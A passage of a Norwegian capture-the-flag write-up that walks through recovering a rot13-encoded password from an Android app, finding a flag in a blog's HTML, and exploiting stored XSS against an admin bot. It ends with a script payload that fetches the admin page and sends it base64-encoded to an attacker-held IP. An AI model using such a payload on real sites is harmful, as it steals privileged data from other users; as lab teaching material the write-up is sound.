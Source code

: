 Årets oppdrag er beskrevet i [INTREP.txt](INTREP.txt), som har to viktige URLer, og filen `app.apk`. Writeups under må leses i noenlunde kronologisk for å gi mening for en som ikke har sett på noen av oppgavene før, ettersom de henger veldig tett sammen. Det gir lite mening å stykke ut en uavhengig forklaring for hvert flagg i oppdraget.

### 2.01_app

Nettstedet `http://blog.utl` krever innlogging, og den vedlagte appen er en modifisert TOR-klient, som går til et domene som peker til bloggen. Slik kan den også enkelt nås fra utsiden av SSH-serveren. `AndroidManifest.xml` viser at `org.torproject.android.sample.MainActivity` er det som kjøres først, og inne i dens `onCreate`-metode finnes det et brukernavn, samt et passord som kjøres gjennom funksjonen `rot13()` før det tas i bruk. Dette passordet er første flagget.

> Veldig bra!
> Android-applikasjonen ser ut til å tilhøre en tjeneste aktøren benytter. Undersøk tjenesten og se om det kan gi oss videre aksess til tjenestene deres.



### 2.02_blog_1

Etter å ha logget inn som `user`, så finnes neste flagg i HTML-kilden som en meta tag.

> Bra jobbet!
> Du har funnet tjenesten. Det ser ut som den blir benyttet for kommunikasjon. Undersøk videre om tilgangen til tjenesten åpner for flere muligheter.



### 2.03_blog_2

Inne på bloggen, er det mange poster og kommentarer. Gjennom `robots.txt` vises det også en del skjulte endepunkter:

```
/auth/login
/auth/register
/logs

/admin
/admin/update
```

hvor `/logs` har en output som minner veldig om en standard `access.log`. Endepunktet viser at det er noen med user-agent `Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.105 Safari/537.36` som konstant besøker nettsiden. Hvis det legges inn en ny post, så tar det ikke mange sekundene før brukeren `admin` hopper inn og kommenterer `Cool post!`.

Etter litt prøving og feiling, så innser jeg at det er ingen begrensninger på hva man kan poste, og dermed virker det fint med f.eks. XSS (Cross-Site Scripting). Første tanke var da å bruke XSS til å lekke admin sin session cookie, men denne har `httponly`-flagget satt, så den er ikke tilgjengelig via JavaScript. Siden endepunktet `/admin` er kjent, kan man derimot lure admin til å besøke dette nettstedet, og så sende innholdet til oss. Merk at admin ikke har helt bra DNS-resolving, så man må bruke direkte IP til en boks i nettverket.

```html
<script>
fetch('/admin')
.then(response => response.text())
.then(text => fetch("http://10.x.x.x:8000/?data=" + btoa(unescape(encodeURIComponent(text)))))
</script>
```

